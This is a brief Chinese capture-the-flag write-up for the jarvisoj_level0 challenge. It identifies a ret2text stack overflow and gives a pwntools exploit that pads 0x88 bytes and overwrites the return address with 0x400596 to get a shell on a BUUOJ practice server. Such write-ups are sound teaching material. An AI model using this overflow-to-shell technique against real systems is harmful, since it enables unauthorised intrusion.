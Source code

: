 ```yaml
---
title: "jarvisoj_level0"
description: ""
date: 2023-04-06T19:14:38+08:00
lastmod: 2023-04-06T19:14:38+08:00
draft: false
images: []
type: docs
weight: 998
toc: true
---
```


## 0x01 分析

![fed3eaa144287a208a711c47c17d2456](images/fed3eaa144287a208a711c47c17d2456.png)  

并且程序存在直接getshell的函数

![012323d7e8428904411f61afc9f05c2c](images/012323d7e8428904411f61afc9f05c2c.png)  

简单的ret2text类型

## 0x02 Exploit

```python
from pwn import*
o = remote('node4.buuoj.cn', 27978)
payload = b'a'*0x88 + p64(0x400596)
o.sendline(payload)
o.interactive() 
```

![dedff31f40f92a167436355d83188f17](images/dedff31f40f92a167436355d83188f17.png)  

自行调试分析
